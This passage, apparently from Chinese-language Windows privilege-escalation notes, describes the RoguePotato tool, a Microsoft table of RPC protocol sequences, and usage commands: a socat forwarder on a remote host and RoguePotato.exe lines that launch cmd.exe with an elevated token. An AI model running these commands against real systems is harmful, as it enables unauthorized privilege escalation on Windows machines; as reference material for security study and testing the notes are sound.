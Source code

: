 ### [RoguePotato](#toc_roguepotato)

-   [https://github.com/antonioCoco/RoguePotato](https://github.com/antonioCoco/RoguePotato)

利用了命名管道，微软修补后，高版本`Windows DCOM` 解析器不允许`OBJREF`中的`DUALSTRINGARRAY`字段指定端口号。为了绕过这个限制并能做本地令牌协商，作者在一台远程主机上的`135`端口做流量转发，将其转回受害者本机端口，并写了一个恶意`RPC OXID`解析器

**RPC 支持的协议**  
[https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-rpce/472083a9-56f1-4d81-a208-d18aef68c101](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rpce/472083a9-56f1-4d81-a208-d18aef68c101)

| RPC transport | RPC protocol sequence string |
| --- | --- |
| SMB | ncacn\_np (see section 2.1.1.2) |
| TCP/IP (both IPv4 and IPv6) | ncacn\_ip\_tcp (see section 2.1.1.1) |
| UDP | ncadg\_ip\_udp (see section 2.1.2.1) |
| SPX | ncacn\_spx (see section 2.1.1.3) |
| IPX | ncadg\_ipx (see section 2.1.2.2) |
| NetBIOS over IPX | ncacn\_nb\_ipx (see section 2.1.1.4) |
| NetBIOS over TCP | ncacn\_nb\_tcp (see section 2.1.1.5) |
| NetBIOS over NetBEUI | ncacn\_nb\_nb (see section 2.1.1.6) |
| AppleTalk | ncacn\_at\_dsp (see section 2.1.1.7) |
| RPC over HTTP | ncacn\_http (see section 2.1.1.8) |

**利用代码：**

```plain
 - Network redirector / port forwarder to run on your remote machine, must use port 135 as src port
        socat tcp-listen:135,reuseaddr,fork tcp:10.0.0.3:9999
 - RoguePotato without running RogueOxidResolver locally. You should run the RogueOxidResolver.exe on your remote machine. Use this if you have fw restrictions.
        RoguePotato.exe -r <IP> -e "C:\windows\system32\cmd.exe"
 - RoguePotato all in one with RogueOxidResolver running locally on port 9999
        RoguePotato.exe -r <IP> -e "C:\windows\system32\cmd.exe" -l 9999
 - RoguePotato all in one with RogueOxidResolver running locally on port 9999 and specific clsid and custom pipename
        RoguePotato.exe -r <IP> -e "C:\windows\system32\cmd.exe" -l 9999 -c "{6d8ff8e1-730d-11d4-bf42-00b0d0118b56}" -p splintercode
```

**示例**
